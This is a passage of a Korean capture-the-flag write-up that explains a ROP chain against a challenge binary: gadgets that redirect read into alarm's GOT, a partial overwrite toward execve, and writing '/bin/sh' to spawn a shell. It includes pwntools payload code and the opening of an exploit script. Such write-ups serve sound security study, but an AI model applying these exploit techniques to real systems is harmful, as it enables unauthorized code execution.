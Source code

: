 `rbp`는 `pop rbp` 가젯을 이용하여 자유롭게 값을 설정할 수 있으니 `lea rax, [rbp-8h]` instruction을 감안해서 입력받을 주소에 `8`을 더해서 `rbp` 값을 설정하면 된다.

이 때 설정해둔 `rsp` 값을 변경시키지 않기 위해 `read` 가젯의 중간인 `0x401172` 주소로 바로 뛰도록 payload를 구성했다.
``` python
    # read(0, alarm.got, 8) ; alarm.got = 0x404008
    # rdi = 0, rsi = alarm.got, rdx = 8
    payload = p64(elf.got['alarm'] + 8)     # alarm.got + 8
    payload += p64(0x401172)                # middle of read
```
여기에서 `alarm`의 GOT에 값을 쓰기로 했는데, libc를 leak하기 위한 출력 함수가 하나도 없기 때문에 `execve`와 가장 가까운 함수를 찾아 partial overwrite를 하기 위함이다.

가장 가깝다는 것은 offset 차이가 가장 조금 난다는 것이고, 가까운 함수의 GOT를 덮어 쓴 것은 aslr에 의한 exploit 확률을 최대한 높일 수 있기 때문이다.

이후에는 `execve` 함수 인자를 맞춰주기 위해 `"/bin/sh\x00"`를 메모리에 써두고 가젯을 이용해 전달하는 과정만 수행해주면 된다.
``` python
    # read(0, 0x404900, 8) ; &0x404900 = "/bin/sh\x00"
    pop_rbp = 0x401168
    payload += p64(pop_rbp)
    payload += p64(0x404908)                # 0x404900 + 8
    payload += p64(0x401172)
    
    # execve("/bin/sh", 0, 0)
    # rdi = 0x404900, rsi = 0, rdx = 0
    mov_rdi_rsi = 0x40115a
    pop_rsi = 0x401165
    payload += p64(mov_rdi_rsi)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(elf.plt['alarm'])

    payload += b"B" * (0x60 - len(payload))
    payload += p64(0x4047a0)
    payload += p64(0x401190)
    payload += b"\x00\x00\x00"
    log.info(f"payload len : {hex(len(payload))}")

    s.send(payload)
    sleep(0.5)
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "chall"
LIBRARY = "libc-2.31.so"
CONTAINER = "44c6741a4dc0"
bp = {
    'main' : 0x4011B8,
    'leave_after_fgets' : 0x4011b6,
    'ret_after_fgets' : 0x4011B7,
}

gs = f'''
b *{bp["leave_after_fgets"]}
b *{0x401183}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

```